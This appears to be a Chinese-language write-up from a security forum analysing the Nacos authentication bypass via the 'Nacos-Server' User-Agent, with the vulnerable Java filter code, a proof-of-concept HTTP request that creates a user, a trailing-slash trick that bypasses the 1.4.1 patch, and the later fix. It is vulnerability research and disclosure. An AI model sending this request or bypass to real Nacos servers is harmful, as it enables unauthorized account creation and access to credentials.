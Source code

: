 ### 漏洞背景

阿里巴巴在2018年7月份发布Nacos, Nacos是一个更易于构建云原生应用的动态服务发现、配置管理和服务管理平台。简单来说，Nacos就是一个类似于Zookeeper的配置中心。

该漏洞发生在nacos在进行认证授权操作时，会判断请求的user-agent是否为"Nacos-Server"，如果是的话则不进行任何认证。开发者原意是用来处理一些服务端对服务端的请求。但是由于配置的过于简单，并且将协商好的user-agent设置为Nacos-Server，直接硬编码在了代码里，导致了漏洞的出现。并且利用这个未授权漏洞，攻击者可以获取到用户名密码等敏感信息。

### 漏洞详情

漏洞出现在`com.alibaba.nacos.core.auth.AuthFilter#doFilter`函数，如果useragent等于`Constants.NACOS_SERVER_HEADER`这个常量，那么就进入下一个filter，不在进行认证校验。

```Java
public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain)
            throws IOException, ServletException {

        if (!authConfigs.isAuthEnabled()) {
            chain.doFilter(request, response);
            return;
        }

        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;

        String userAgent = WebUtils.getUserAgent(req);

        if (StringUtils.startsWith(userAgent, Constants.NACOS_SERVER_HEADER)) {
            chain.doFilter(request, response);
            return;
        }

        try {

            Method method = methodsCache.getMethod(req);

            if (method == null) {
                chain.doFilter(request, response);
                return;
            }

            if (method.isAnnotationPresent(Secured.class) &amp;&amp; authConfigs.isAuthEnabled()) {

                if (Loggers.AUTH.isDebugEnabled()) {
                    Loggers.AUTH.debug("auth start, request: {} {}", req.getMethod(), req.getRequestURI());
                }

                Secured secured = method.getAnnotation(Secured.class);
                String action = secured.action().toString();
                String resource = secured.resource();

                if (StringUtils.isBlank(resource)) {
                    ResourceParser parser = secured.parser().newInstance();
                    resource = parser.parseName(req);
                }

                if (StringUtils.isBlank(resource)) {
                    // deny if we don't find any resource:
                    throw new AccessException("resource name invalid!");
                }

                authManager.auth(new Permission(resource, action), authManager.login(req));

            }
            chain.doFilter(request, response);
        } catch (AccessException e) {
            if (Loggers.AUTH.isDebugEnabled()) {
                Loggers.AUTH.debug("access denied, request: {} {}, reason: {}", req.getMethod(), req.getRequestURI(),
                        e.getErrMsg());
            }
            resp.sendError(HttpServletResponse.SC_FORBIDDEN, e.getErrMsg());
            return;
        } catch (IllegalArgumentException e) {
            resp.sendError(HttpServletResponse.SC_BAD_REQUEST, ExceptionUtil.getAllExceptionMsg(e));
            return;
        } catch (Exception e) {
            resp.sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "Server failed," + e.getMessage());
            return;
        }
    }
```

绕过认证之后就可以进行很多危险的操作，例如`com.alibaba.nacos.console.controller.UserController`中的操作。

```JavaScript
@Secured(resource = NacosAuthConfig.CONSOLE_RESOURCE_NAME_PREFIX + "users", action = ActionTypes.WRITE)
@PostMapping
public Object createUser(@RequestParam String username, @RequestParam String password) {

    User user = userDetailsService.getUserFromDatabase(username);
    if (user != null) {
        throw new IllegalArgumentException("user '" + username + "' already exist!");
    }
    userDetailsService.createUser(username, PasswordEncoderUtil.encode(password));
    return RestResultUtils.success("create user ok!");
}

```

这个controller中包含了创建用户、删除用户等行为

如下poc即可创建一个新用户

```Java
POST /nacos/v1/auth/users?username=123&amp;password=123 HTTP/1.1
User-Agent: Nacos-Server
Host: 127.0.0.1:8848
Accept: */*

```

补丁修复
----

在1.4.1版本中，增加了一段修复代码，第一个if中，为原本的逻辑，也是默认情况下的逻辑，依然是判断User-Agent头中是否是以Nacos-server开头，，第二个if中为新增逻辑，从用户的请求中获取一个键值对，判断与配置中的键值对是否相同，如果不相同则不会进入chain.doFilter

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c2b00c77e3ee346e732eeea735d5824c6739eb9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1c2b00c77e3ee346e732eeea735d5824c6739eb9.png)

补丁绕过
----

在补丁的第二个if中，如果用户开启了这个安全配置，且攻击者匹配失败，那么不会进入chain.doFilter，而是继续往之后的流程走，而在这段代码的下方，是这段代码

```Java
try {

            Method method = methodsCache.getMethod(req);

            if (method == null) {
                chain.doFilter(request, response);
                return;
            }

```

如果能使getMethod方法返回null，那么认证就会被绕过。

```Java
public Method getMethod(HttpServletRequest request) {
        String path = getPath(request);
        if (path == null) {
            return null;
        }
        String httpMethod = request.getMethod();
        String urlKey = httpMethod + REQUEST_PATH_SEPARATOR + path.replace(contextPath, "");
        List<RequestMappingInfo> requestMappingInfos = urlLookup.get(urlKey);
        if (CollectionUtils.isEmpty(requestMappingInfos)) {
            return null;
        }
        List<RequestMappingInfo> matchedInfo = findMatchedInfo(requestMappingInfos, request);
        if (CollectionUtils.isEmpty(matchedInfo)) {
            return null;
        }
```

从代码来看，有多个返回null的机会，先看第一个getPath函数

```Java
private String getPath(HttpServletRequest request) {
        String path = null;
        try {
            path = new URI(request.getRequestURI()).getPath();
        } catch (URISyntaxException e) {
            LOGGER.error("parse request to path error", e);
        }
        return path;
    }
```

这个是我们的请求路径，不可能为null，看第二部分

```Java
        String urlKey = httpMethod + REQUEST_PATH_SEPARATOR + path.replace(contextPath, "");
        List<RequestMappingInfo> requestMappingInfos = urlLookup.get(urlKey);
        if (CollectionUtils.isEmpty(requestMappingInfos)) {
            return null;
        }
```

这个urllookup存放了所有的api

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a1cfb9275db99ab6233b2bdab2fe765e55b16db3.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-a1cfb9275db99ab6233b2bdab2fe765e55b16db3.png)

这里的绕过用到了一个小trick，一个普通的请求

```Java
http://127.0.0.1/user/login?username=1&amp;password=2
```

通过`new URI(request.getRequestURI()).getPath();`处理后，得到的path是`/user/login`。

但是如果请求长这个样子

```Java
http://127.0.0.1/user/login/?username=1&amp;password=2
```

那么得到的path会是`/user/login/`

而这样子的path，在urlkey中会get不到数据，从而导致了绕过，并且在后续的filter处理中这个多出来的`/`并不会影响路由结果。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3119c0a91772fd5734f311d641ee7f90d5031abc.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3119c0a91772fd5734f311d641ee7f90d5031abc.png)

### 绕过补丁

官方在这个commit中修复了这此绕过<https://github.com/alibaba/nacos/commit/2cc0be6ae1cee1f2bcd2b19886380a15004eae47#diff-d5e3e36338473d502083b47c9a5d3e162203eb17eea81e406bfa2e046ff30c7f>。

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-afa1298899fd8c99e8446a4bd34f09b5cc916cc7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-afa1298899fd8c99e8446a4bd34f09b5cc916cc7.png)

在urllookup中存放URL路径时均会在最后增加一个`/`，导致之前的绕过失效。